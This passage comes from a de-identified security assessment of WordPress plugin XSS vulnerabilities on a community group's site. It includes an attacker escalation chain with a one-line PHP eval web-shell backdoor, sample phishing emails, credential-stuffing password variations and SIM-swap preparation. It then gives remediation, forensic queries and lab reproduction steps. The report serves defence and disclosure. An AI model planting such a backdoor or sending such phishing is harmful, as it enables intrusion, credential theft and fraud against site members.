| Crypto mining | Inject JS miner in footer | Uses visitors' CPUs |
| Ransomware | Delete content, demand payment | Data loss |
| Pivot to email | Access [email marketing service] API key | Phishing emails to entire mailing list |
| Impersonate organizers | Post fake events with wrong locations/times | Physical safety risk for members |

---

## 5. Full Offensive Attack Chain: Beyond the Website

The vulnerabilities documented in this report are the **entry point**, not the end goal. An attacker with offensive security training would not stop at defacing a webpage or stealing a single set of credentials. What follows is the realistic escalation path that a motivated attacker could take — the full chain of consequences that begins with a single exploited XSS vulnerability.

**This is why a "small" website vulnerability is never small.**

### 5.1 Phase 1: Initial Access and Data Exfiltration

Once an attacker has WordPress admin access (obtained via the phishing or JavaScript attack chains described in Section 4), the immediate priority is harvesting everything of value:

**User Account Database:**
```
WordPress admin panel → Users → Export
```
This yields for every registered member:
- Full name, email address, username
- Display name, registration date, role
- Profile metadata (biographical info, website URLs)

**Ultimate Member Extended Profiles:**

The Ultimate Member plugin stores additional profile fields beyond what WordPress provides. Depending on the site's configuration, this may include:
- Phone numbers, mailing addresses
- Social media handles (Instagram, Facebook, Twitter)
- Profile photos and custom biography fields
- RSVP history and event attendance records

**Payment and Donation Data:**

If the site uses Stripe, WooCommerce, or any payment integration:
- Stripe API keys may be stored in plugin settings (accessible from the WordPress admin panel)
- Transaction logs may contain partial card numbers, billing addresses, and email addresses
- Donor names and amounts for any fundraising campaigns

**Mailing List Export:**

[email marketing service], Mailchimp, or other email marketing integrations store API keys in WordPress plugin settings:
```
WordPress admin → Settings → [email marketing service] → API Key
```
With the API key, the attacker can:
- Export the entire subscriber list (names, emails, subscription preferences)
- Send emails that appear to come from the organization
- Monitor future signups in real time

### 5.2 Phase 2: Credential Reuse Attacks

Most people reuse passwords across multiple services. The attacker now has:
- Email addresses (confirmed valid — they registered on the site)
- Potentially the WordPress password itself (from the phishing attack)
- Full names and likely usernames/handles

**The attack proceeds:**

1. **Credential stuffing**: Automated tools test the harvested email/password combinations against:
   - Gmail, Outlook, Yahoo (email access is the master key to everything)
   - Facebook, Instagram, Twitter/X (social media accounts)
   - Amazon, PayPal, Venmo (financial accounts)
   - Banking portals (if the password pattern is predictable)
   - Streaming services (Netflix, Spotify, Disney+)

2. **Password variation**: If the exact password doesn't work, automated tools try common variations:
   - Appending or changing numbers: `Password1` → `Password2`, `Password123`
   - Case changes: `mypassword` → `MyPassword` → `MYPASSWORD`
   - Adding special characters: `password` → `password!` → `p@ssword`
   - Leet speak: `password` → `p4ssw0rd`

3. **Security question harvesting**: Profile data from the site (birthday, pet names, hometown, interests) feeds directly into security question answers for password reset flows on other platforms.

The success rate for credential reuse attacks is disturbingly high. Studies consistently find that 60-65% of people reuse passwords across services.

### 5.3 Phase 3: Weaponizing the Mailing List

With the [email marketing service] API key or WordPress admin access to the email integration, the attacker can send emails that:
- Come from the organization's actual email address
- Pass SPF, DKIM, and DMARC authentication (because they ARE sent through the legitimate service)
- Appear in recipients' inboxes, not spam folders
- Are indistinguishable from real communications

**Phishing campaign examples targeting members:**

**"Account Security Update" email:**
> Subject: Action Required: Update Your Account Information
>
> Dear [Member Name],
>
> We've upgraded our membership system and need you to verify your account details. Please click below to confirm your information within 48 hours to maintain your membership.
>
> [Update My Account →]
>
> This links to a cloned site that captures their full name, email, phone, new password, and optionally payment information for "membership renewal."

**"Payment Method Update" email:**
> Subject: Your payment method needs to be updated
>
> Hi [Member Name],
>
> We were unable to process your recent membership renewal. Please update your payment information to avoid interruption to your account.
>
> [Update Payment Method →]
>
> This links to a Stripe-lookalike form that captures full credit card details.

**"New Event" email with malware:**
> Subject: You're Invited: [Upcoming Adventure Name]
>
> Attached: event-details.pdf (actually a malware-laden document)
>
> Or: "View the trail map here" → links to a drive-by download

These emails are especially effective because:
- Members recognize the sender as a real organization they belong to
- The "from" address is legitimate
- The content matches the type of communication they normally receive
- There is an existing trust relationship

### 5.4 Phase 4: Social Media and Identity Exploitation

With names, email addresses, and social media handles from the member database, an attacker can:

**Direct social engineering on other platforms:**
- Friend/follow members on Facebook, Instagram, etc.
- Impersonate organizers in direct messages: "Hey, we're switching to a new payment system, can you update your info at [malicious link]?"
- Create fake event pages on Facebook that mirror real upcoming events but redirect RSVPs through attacker-controlled forms

**Account takeover via social platforms:**
- Use harvested credentials on social media accounts
- If successful, access the member's private messages, friends list, photos, and personal information
- Use compromised social accounts to spread phishing links to the victim's friends: "Check out this group I joined" → malware or credential harvest

**Doxxing and harassment:**
- For a community site serving members of a community group, the member list itself is sensitive data
- In hostile environments, exposure of membership in this community could result in discrimination, harassment, or physical danger
- Cross-referencing member names with social media, public records, and employer directories expands the exposure

### 5.5 Phase 5: Persistent Access and Malware Deployment

An attacker who wants long-term value from the compromised site will:

**Install a backdoor in WordPress:**
```php
// Hidden in a theme file or as a "must-use" plugin
// Survives plugin updates, theme changes, and password resets
if (isset($_GET['cmd'])) { eval(base64_decode($_GET['cmd'])); }
```
This provides persistent remote code execution even after the original vulnerability is patched.

**Deploy JavaScript-based attacks on all visitors:**

By editing the site's theme (Appearance → Theme Editor → footer.php), the attacker can inject JavaScript that executes for every visitor:

- **Cryptojacking**: Silent cryptocurrency mining using visitors' browsers (Coinhive-style)
- **Drive-by downloads**: Prompt visitors to install a "required plugin" or "PDF viewer update" that is actually malware
- **Browser exploitation**: Serve exploits for known browser vulnerabilities (especially effective against visitors on older phones)
- **Keyloggers**: Capture everything typed on the site, including login forms on other pages

**Ransomware deployment:**
- Encrypt or delete all site content and database
- Replace the homepage with a ransom demand
- If the attacker has gained access to the hosting control panel (often reachable with the same credentials), they can delete backups too

### 5.6 Phase 6: Mobile Device Attacks

If members click malicious links from their phones (which is where most people check email):

**Device-specific attacks:**
- Malicious Progressive Web Apps (PWAs) that request permissions to access contacts, camera, location
- iOS/Android exploit chains delivered through the browser (rare but high-impact)
- Fake "app update" prompts that install spyware
- SMS-based follow-up attacks using phone numbers harvested from profiles

**SIM swapping preparation:**
- With name, phone number, email, and enough personal details from the profile, an attacker can attempt SIM swap attacks at mobile carriers
- A successful SIM swap gives the attacker control of the victim's phone number, which bypasses SMS-based two-factor authentication on banking, email, and other accounts

### 5.7 Phase 7: Financial Fraud

The end goal for financially motivated attackers:

| Asset | How It's Obtained | Monetization |
|-------|-------------------|--------------|
| Credit card numbers | Fake payment update emails | Direct fraud, sold on dark markets ($5-50/card) |
| Email account access | Credential reuse from WordPress password | Password resets on financial accounts, business email compromise |
| Full identity (name, DOB, SSN) | Phishing escalation from initial data harvest | Identity theft, fraudulent loans, tax fraud |
| Social media accounts | Credential reuse | Sold on dark markets ($10-75/account), used for scam propagation |
| Crypto wallet seeds | Keylogger on compromised devices | Immediate, irreversible theft |
| Organization's Stripe account | API key from WordPress admin settings | Direct fund diversion |

### 5.8 The Kill Chain Summary

```
XSS vulnerability in WordPress plugin
    │
    ▼
Credential phishing via stored XSS ─── OR ─── Admin account creation via reflected XSS
    │                                               │
    ▼                                               ▼
WordPress admin access ◄────────────────────────────┘
    │
    ├──▶ Export user database (names, emails, phones, profiles)
    ├──▶ Steal API keys ([email marketing service], Stripe, hosting)
    ├──▶ Install persistent backdoor
    │
    ▼
Credential reuse attacks against members
    │
    ├──▶ Email account access (master key)
    ├──▶ Social media takeover
    ├──▶ Financial account access
    │
    ▼
Weaponize mailing list (legitimate sender, passes all email auth)
    │
    ├──▶ Phishing for payment information
    ├──▶ Malware distribution via trusted email
    ├──▶ Fake event pages with malicious downloads
    │
    ▼
Device compromise (phones, laptops)
    │
    ├──▶ Cryptojacking, ransomware, spyware
    ├──▶ SIM swap preparation
    ├──▶ Contact list harvesting (spreads to victims' contacts)
    │
    ▼
Financial fraud, identity theft, community exposure
```

### 5.9 It's Not Just Your Website

The critical message for the site owner is this: **a WordPress XSS vulnerability is not a website problem. It is an organizational security problem that extends to every member of the community.**

The website is the entry point. The real targets are:
- **Your members' personal data** — names, emails, phone numbers, social connections
- **Your members' financial accounts** — via credential reuse and phishing escalation
- **Your members' devices** — via malware distributed through trusted channels
- **Your members' safety** — for a community site serving a population that faces real-world discrimination, a membership list leak has consequences far beyond the digital world
- **Your organization's reputation** — being the source of phishing emails and malware destroys the trust your community is built on

Updating three WordPress plugins takes five minutes. The attack chain described above takes five days to fully execute. But once the data is exfiltrated in Phase 1, there is no taking it back.

---

## 6. Risk Assessment

```
    +------------------------------------------------------------------+
    |                    RISK MATRIX                                    |
    |                                                                   |
    |  Exploitability                                                   |
    |       ^                                                           |
    |  HIGH |                          * CVE-2026-1512                  |
    |       |                            (Stored XSS, zero-click,      |
    |       |                             login page exposed)           |
    |       |                                                           |
    |  MED  |  * CVE-2026-1404                                         |
    |       |    (Reflected XSS,                                        |
    |       |     full JS exec,                                         |
    |       |     but no directory page)                                |
    |       |                                                           |
    |  LOW  |                                                           |
    |       +----+----------+-----------+-----------+---> Client        |
    |           NONE       LOW         MED        HIGH    Exposure      |
    +------------------------------------------------------------------+
```

| CVE | Severity | Exploitability | Client Exposure | Combined Risk |
|-----|----------|----------------|-----------------|---------------|
| CVE-2026-1512 | HIGH | Contributor+ stored XSS, zero-click beacon, one-click phishing | **HIGH** — login page exists with EA widget | **CRITICAL** |
| CVE-2026-1404 | HIGH | Unauthenticated, full JS execution, one click | **LOW** — no member directory page | **MEDIUM** (HIGH if directory enabled) |

---

## 7. Recommendations

### Immediate (this week)

| Priority | Action | Effort |
|----------|--------|--------|
| P0 | **Update Essential Addons** to 6.5.10+ | 5 minutes |
| P0 | **Update Ultimate Member** to 2.11.2+ | 5 minutes |
| P0 | **Audit login page** (ID [LOGIN_PAGE_ID]) — inspect `_elementor_data` post meta for `login_form_subtitle` containing `` or `<a>` tags | 15 minutes |
| P0 | **Review all user accounts** — look for unknown Contributor/Author/Admin accounts | 10 minutes |
| P1 | **Update Elementor** to 3.35.5 | 5 minutes |
| P1 | **Update remaining outdated plugins** (Events Calendar, [email marketing service]) | 5 minutes |

### Short-term (this month)

| Priority | Action | Effort |
|----------|--------|--------|
| P1 | **Install Wordfence or Sucuri WAF** — detects XSS payloads in requests | 30 minutes |
| P1 | **Enable automatic plugin updates** for security patches | 5 minutes |
| P1 | **Restrict REST API** — disable public user, venue, organizer endpoints | 30 minutes |
| P2 | **Restrict user registration** — if UM registration is enabled, require admin approval | 15 minutes |
| P2 | **Add rate limiting** to wp-login.php (brute force protection) | 15 minutes |

### Long-term

| Priority | Action | Effort |
|----------|--------|--------|
| P2 | **Reduce plugin count** — each plugin is attack surface | Ongoing |
| P2 | **Regular security audits** — monthly plugin version checks | 30 min/month |
| P3 | **Migrate to purpose-built platform** — eliminates entire WordPress plugin supply chain risk | Major project |

---

## 8. Evidence Files

| File | Description |
|------|-------------|
| `figures/cve-2026-1512-poc.png` | Login form with hidden `` beacon in subtitle (zero-click tracking) |
| `figures/cve-2026-1512-phishing-link.png` | Phishing link "Sign in to continue" rendered in login form subtitle |
| `figures/cve-2026-1512-full-chain.png` | Redirect to attacker credential harvesting page after phishing click |
| `wp-audit-example-2026-02-25.md` | Original passive reconnaissance audit report |

---

## Appendix A: Lab Reproduction Steps

These steps reproduce the findings on your own equipment. All testing must be performed on an isolated lab instance that you own — never against a production website.

1. Deploy a fresh WordPress instance in an isolated environment (VM, container, or jail) with no internet access
2. Install the exact vulnerable plugin versions from the WordPress plugin repository:
   - Elementor 3.35.0, Essential Addons 6.5.9, Ultimate Member 2.11.1
3. Create a page with the EA Login/Register widget using the Elementor editor
4. Set `login_form_subtitle` in widget settings to a test payload (e.g., ``)
5. Visit the page in a browser and observe:
   - Network tab shows HTTP request from `` beacon
   - DOM inspector shows `<a>` and `` tags in `.form-dsc p` element
6. Optionally, run Playwright automation to verify programmatically

## Appendix B: Elementor Data Forensics

To check if the login page has already been compromised:

```sql
-- Check login_form_subtitle in Elementor data for page ID [LOGIN_PAGE_ID]
SELECT meta_value
FROM wp_postmeta
WHERE post_id = [LOGIN_PAGE_ID]
  AND meta_key = '_elementor_data';

-- Look for  or <a> tags in the JSON result
-- The subtitle is at: [n].elements[n].elements[n].settings.login_form_subtitle
```

```bash
# Or via WP-CLI:
wp post meta get [LOGIN_PAGE_ID] _elementor_data --format=json | \
  python3 -c "
import json, sys
data = json.load(sys.stdin)
def find_subtitles(elements):
    for el in elements:
        s = el.get('settings', {})
        if 'login_form_subtitle' in s:
            print('FOUND:', s['login_form_subtitle'])
        find_subtitles(el.get('elements', []))
find_subtitles(data)
"
```

If any subtitle contains ``, `<em>`), it should be considered suspicious.

## Appendix C: Remediation Commands

### Pre-Remediation Backup

Before making any changes, create a backup. The exact method depends on your hosting environment:

```bash
# Generic: Export the database and copy the WordPress directory
mysqldump -u root wordpress > /tmp/wordpress-pre-fix-$(date +%Y%m%d).sql
tar czf /tmp/wordpress-files-$(date +%Y%m%d).tar.gz /var/www/html/

# ZFS-based systems (FreeBSD jails, Proxmox, etc.):
# Create a snapshot that can be rolled back instantly
zfs snapshot zroot/jails/wordpress@pre-fix

# CBSD jail (our lab environment):
cbsd jsnapshot jname=wordpress-lab mode=create snapname=pre-wp-fix
```

### Manual Remediation via WP-CLI

These commands update the three vulnerable plugins to their patched versions:

```bash
# Update Essential Addons for Elementor (fixes CVE-2026-1512)
wp plugin update essential-addons-for-elementor-lite --path=/var/www/html --allow-root

# Update Ultimate Member (fixes CVE-2026-1404)
wp plugin update ultimate-member --path=/var/www/html --allow-root

# Update Elementor (recommended — keep page builder current)
wp plugin update elementor --path=/var/www/html --allow-root
```

### Post-Update Verification

```bash
# Verify each plugin is at or above the minimum safe version
wp plugin get essential-addons-for-elementor-lite --field=version --path=/var/www/html --allow-root
# Expected: >= 6.5.10

wp plugin get ultimate-member --field=version --path=/var/www/html --allow-root
# Expected: >= 2.11.2

wp plugin get elementor --field=version --path=/var/www/html --allow-root
# Expected: >= 3.35.5
```

### Elementor Data Audit

After updating plugins, check whether the stored XSS payload is still present in the database. Plugin updates do not clean up previously injected content:

```bash
# List all posts with Elementor data
wp db query "SELECT DISTINCT post_id FROM wp_postmeta WHERE meta_key = '_elementor_data'" \
  --skip-column-names --path=/var/www/html --allow-root

# For each post ID, inspect the raw Elementor JSON
wp post meta get <POST_ID> _elementor_data --path=/var/www/html --allow-root

# Look for HTML tags in login_form_subtitle values:
#   <img   — beacon/tracking
#   <a     — phishing links
#   <iframe, <script, <svg — active exploitation
```

If suspicious content is found, use the Elementor editor to clear the subtitle field and re-save the page.

### Automated Remediation: wp-fix Binary

We have built a purpose-built Rust binary that performs all of the above steps in a single command:

```bash
# Run the full remediation pipeline:
#   check → audit → update → verify
./wp-fix all

# Or run individual steps:
./wp-fix check                    # Report plugin versions, flag vulnerable
./wp-fix audit                    # Scan Elementor data for XSS indicators
./wp-fix update                   # Update all three plugins
./wp-fix verify                   # Confirm patched versions installed

# Custom paths (if WordPress is not at the default location):
./wp-fix all --wp-path /srv/wordpress --wp-cli /usr/bin/wp
```

The binary:
- Has zero external dependencies (statically linked, no runtime requirements)
- Cross-compiled for Linux (x86_64) and FreeBSD (x86_64)
- Performs version comparison against known-safe thresholds
- Scans raw Elementor JSON for 9 suspicious HTML patterns
- Prints a clear PASS/FAIL report for each check
- Exit code 0 = all clean, exit code 1 = issues found, exit code 2 = error

### Rollback If Something Breaks

```bash
# If a plugin update breaks the site, restore from backup:

# Generic:
mysql -u root wordpress < /tmp/wordpress-pre-fix-YYYYMMDD.sql
tar xzf /tmp/wordpress-files-YYYYMMDD.tar.gz -C /

# ZFS:
zfs rollback zroot/jails/wordpress@pre-fix

# CBSD jail:
cbsd jsnapshot jname=wordpress-lab mode=rollback snapname=pre-wp-fix
```

## Appendix D: Why WordPress Will Always Have Vulnerabilities

WordPress powers approximately 43% of all websites on the internet. This market dominance comes with structural security challenges that cannot be solved — only managed.

### The PHP Foundation

WordPress is built on PHP, a language designed for templating web pages in the late 1990s, not for building secure applications:

- **Loose typing**: PHP silently converts between types, leading to type juggling vulnerabilities where `0 == "password"` evaluates to `true` in certain contexts
- **Dynamic includes**: `include()`, `require()`, and `eval()` allow loading and executing arbitrary code at runtime — a feature that is also a persistent attack vector
- **No compile-time safety**: PHP code is interpreted at request time with no ahead-of-time analysis to catch unsafe patterns before deployment
- **Serialization attacks**: PHP's `unserialize()` function has been the root cause of dozens of remote code execution vulnerabilities across WordPress and its plugins

Modern PHP (8.x) has improved significantly with strict typing, enums, and fibers. However, WordPress must maintain backward compatibility with PHP 7.0+, which means the codebase cannot fully adopt these safety features.

### The Plugin Ecosystem

The WordPress plugin directory contains over 60,000 plugins. This is simultaneously its greatest strength and its most significant vulnerability:

- **No mandatory security review**: Anyone can publish a plugin. The review process checks for basic guidelines (no phone-home, no crypto mining), not for security vulnerabilities
- **Solo maintainers**: Many widely-installed plugins are maintained by a single developer with no security training and no code review process
- **Abandoned plugins**: Thousands of plugins are no longer maintained but remain installed on live sites, accumulating unpatched vulnerabilities
- **Supply chain attacks**: Plugin updates are distributed through wordpress.org with no code signing. Compromised maintainer accounts lead to malicious updates pushed to thousands of sites silently

Historical examples:
- **Display Widgets (2017)**: Plugin with 200,000+ installs was sold to a new owner who injected SEO spam into an update
- **Social Warfare (2019)**: Zero-day stored XSS exploited in the wild before a patch was available
- **ThemeGrill Demo Importer (2020)**: Unauthenticated database wipe vulnerability affecting 200,000+ sites
- **Essential Addons for Elementor (2023, 2024, 2025, 2026)**: Recurring XSS and privilege escalation vulnerabilities year after year — including CVE-2026-1512 documented in this report

### The Backward Compatibility Tax

WordPress cannot break backward compatibility without abandoning a significant portion of the internet:

- Themes and plugins depend on WordPress internal APIs that were designed 15+ years ago
- Security hardening that changes behavior (e.g., stricter input sanitization) risks breaking millions of existing sites
- The `wp_kses()` sanitization system must allow enough HTML to support legitimate formatting while blocking malicious content — a fundamentally impossible balancing act

The CVE-2026-1512 vulnerability documented in this report is a direct consequence of this problem: Essential Addons defines its own allowed HTML tags (`eael_allowed_tags()`) that are too permissive, and WordPress's built-in `wp_kses_post()` also allows `` and `<a>` tags because they are legitimate HTML elements.

### The Monoculture Risk

With 43% market share, WordPress is the single highest-value target for attackers:

- Automated scanners continuously probe every WordPress site on the internet
- A single plugin vulnerability can compromise hundreds of thousands of sites simultaneously
- Botnets specifically target WordPress for spam distribution, cryptocurrency mining, and DDoS amplification
- WordPress sites are overwhelmingly targeted by credential stuffing attacks against `/wp-login.php` and `/xmlrpc.php`

### The Maintenance Treadmill

Running a secure WordPress site requires perpetual vigilance:

- Plugin updates must be applied within hours of release, not days or weeks
- Each update risks breaking compatibility with other plugins or the theme
- Database backups must be current in case an update breaks the site
- File integrity monitoring is needed to detect unauthorized modifications
- Login rate limiting, two-factor authentication, and web application firewalls must be configured and maintained separately — WordPress does not provide these out of the box

This is not a criticism of the WordPress developers, who do excellent work within these constraints. It is a recognition that the architecture, ecosystem, and scale create a security maintenance burden that will never go away.

## Appendix E: How the Rust/Axum Platform Eliminates These Vulnerability Classes

The vulnerabilities documented in this report belong to specific, well-understood vulnerability classes. The platform is being built on Rust and Axum specifically because these classes of vulnerability are structurally impossible in this architecture.

### Memory Safety: Ownership Instead of Garbage Collection

Rust's ownership system prevents the memory safety vulnerabilities (buffer overflows, use-after-free, dangling pointers) that account for approximately 70% of all security vulnerabilities in C/C++ software. While PHP is memory-safe in this regard, Rust extends safety guarantees to concurrent code, preventing data races at compile time.

### Type Safety: No Type Juggling, No Surprises

```
PHP (WordPress):
  0 == "password"    → true (type juggling)
  "0e12345" == "0"   → true (scientific notation coercion)

Rust (platform):
  0 == "password"    → compile error: cannot compare i32 with &str
```

Rust enforces strict typing at compile time. There is no implicit type conversion. Invalid comparisons are caught before the code can run.

### Compile-Time Template Safety

WordPress renders HTML by concatenating strings in PHP, with sanitization applied (or forgotten) at each insertion point. The platform uses Askama templates, which are compiled into Rust code:

- Templates are validated at compile time — a missing variable is a build error, not a runtime vulnerability
- HTML escaping is applied by default — inserting `<script>alert(1)</script>` into a template variable renders as literal text, not executable code
- Opting out of escaping requires explicit `|safe` annotation, making unsafe output deliberate and auditable

### No Plugin Ecosystem, No Supply Chain Risk

WordPress's 60,000+ plugin ecosystem is its largest attack surface. The platform has no plugin system:

- All functionality is purpose-built and contained in a single auditable codebase
- Dependencies are vetted Rust crates from crates.io with reproducible builds
- There is no mechanism to load arbitrary code at runtime
- No `eval()`, no `include()`, no dynamic code execution of any kind

### Compiled Binary: No Source on the Server

A WordPress server contains the full PHP source code of the application. An attacker who gains read access to the filesystem can study the code to find additional vulnerabilities, extract database credentials, and understand the application's logic.

The platform deploys as a compiled binary:

- No source code on the server
- No configuration files with database passwords in plaintext (environment variables or secrets manager)
- No ability to inject code by modifying files — the binary is a single executable that either runs as compiled or does not run

### Explicit Input Handling

WordPress processes input through a layered system of hooks, filters, and sanitization functions that are easily bypassed when a developer forgets to call the right function in the right order.

The platform uses Axum extractors and serde deserialization:

- Every HTTP request is parsed through a typed extractor — there is no "raw input" path
- Serde rejects malformed data before application code ever sees it
- Form fields, JSON bodies, and URL parameters are all deserialized into typed Rust structs with explicit validation

### Smaller Attack Surface

WordPress exposes numerous attack vectors by default:

| WordPress Attack Surface | Platform |
|-------------------------|----------|
| REST API (`/wp-json/`) | Not present — no generic API surface |
| XML-RPC (`/xmlrpc.php`) | Not present |
| Login page (`/wp-login.php`) | Hardened auth with rate limiting built in |
| 60,000+ possible plugins | Zero plugins — purpose-built |
| User enumeration (`/?author=1`) | Not exposed |
| Version disclosure | Not exposed |
| File editor in admin panel | No admin panel with code editor |
| PHP info pages | No PHP |

### What This Means in Practice

The two vulnerabilities documented in this report — stored XSS via insufficient HTML sanitization and reflected XSS via client-side template injection — are both structurally impossible in the platform:

- **CVE-2026-1512** (Stored XSS): Cannot happen because Askama templates escape all output by default and there is no `wp_kses()` equivalent that tries to allow "safe" HTML while blocking "dangerous" HTML
- **CVE-2026-1404** (Reflected XSS): Cannot happen because there is no client-side template engine with unescaped interpolation (`{{{ }}}`) and all server-rendered output is escaped at compile time

---

## About This Publication

This is a de-identified version of a security assessment performed for a specific organization. All identifying information — domain names, IP addresses, infrastructure details, and organizational references — has been replaced with generic placeholders. The technical findings, vulnerability analysis, and remediation guidance are unmodified.

This case study is published to demonstrate real-world WordPress XSS exploitation methodology and to provide actionable remediation guidance for WordPress administrators facing similar vulnerabilities.
